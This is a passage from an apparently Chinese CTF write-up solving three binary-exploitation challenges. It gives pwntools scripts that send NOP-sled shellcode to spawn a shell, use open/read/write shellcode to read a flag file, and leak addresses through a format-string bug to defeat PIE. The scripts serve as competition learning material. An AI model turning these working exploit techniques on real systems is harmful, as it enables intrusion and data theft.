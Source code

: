 其实这个随机数没啥用，我们只需要在payload右边填满\x90(NOP），这样程序执行流就会被“滑下来”，多试几次就通了

```
from pwn import *
context(os='linux',arch='amd64')
#io = process('./pwn00')
io = remote('47.97.58.52',42012)
payload = asm(shellcraft.amd64.sh())
print(len(payload))
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
#gdb.attach(io)
#pause()
io.interactive()
```

#### [Week 2] Shellcode-lv1

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-16-1024x607.png" alt="img" style="zoom:50%;" />

不能使用execve，但是可以ORW一把梭

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/Screenshot-from-2024-10-17-19-53-22.png" alt="img" style="zoom:80%;" />

```
from pwn import *
#io = process('./shellcode_1')
io = remote('47.97.58.52',42013)
context(os='linux',arch='amd64',log_level='debug')
addr = 0x20240500
payload = shellcraft.amd64.open("./flag")
payload += shellcraft.amd64.read(3,addr,0x30)
payload += shellcraft.amd64.write(1,addr,0x30)
print(len(payload))
payload = asm(payload)
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
io.interactive()
```

#### [Week 2] ez_format

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-17.png" alt="img" style="zoom:50%;" />

因为这道题开了pie，所以没法直接读取flag的内容，需要泄露栈里地址并且加上偏移来得到&flag的数值，因为很简单，所以直接上代码

```
from pwn import *
#io = process('./pwn22')
io = remote('47.97.58.52',42001)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
#gdb.attach(io)
#pause()
io.send(b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
print(hex(a))
addr = a - 0x1140 + 0x40c0
print(hex(addr))
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
flag = io.recv()
print(flag)
io.interactive()
```
